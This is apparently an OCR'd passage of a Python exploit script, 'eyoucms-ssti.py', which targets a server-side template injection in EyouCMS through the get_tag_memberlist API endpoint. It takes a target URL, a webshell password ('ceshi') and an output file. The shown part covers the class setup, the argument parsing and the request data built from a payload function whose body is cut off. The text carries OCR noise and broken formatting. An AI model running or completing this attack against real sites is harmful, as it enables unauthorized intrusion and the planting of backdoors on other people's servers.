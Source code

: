 ```
[*] 密码：ceshi

[*]` 
```

```
python

#!/usr/bin/python

 -*- coding: UTF-8 -*-

import requests

import sys,getopt

import json,base64

import time

class Eyoucms:

    session = None

    headers = None

    password = "ceshi"

    output = "ceshi"

    requesturi = "/?m=api&c=ajax&a=get_tag_memberlist"

    def __init__(self,headers):

        self.headers = headers

        self.getparam(sys.argv[1:])

        self.requestsdata = {

            "attarray":self.createpyload(),

            "htmlcode":time.time()

        }

        self.run()

    def getparam(self,argv):

        try:

            options, args = getopt.getopt(argv, "h:u:p:o:", ["help", "url=","password=","output="])

        except getopt.GetoptError:

            print 'eyoucms-ssti.py -u url -p password -o outputfile'

            return

        for option, value in options:

            if option in ("-h", "--help"):

```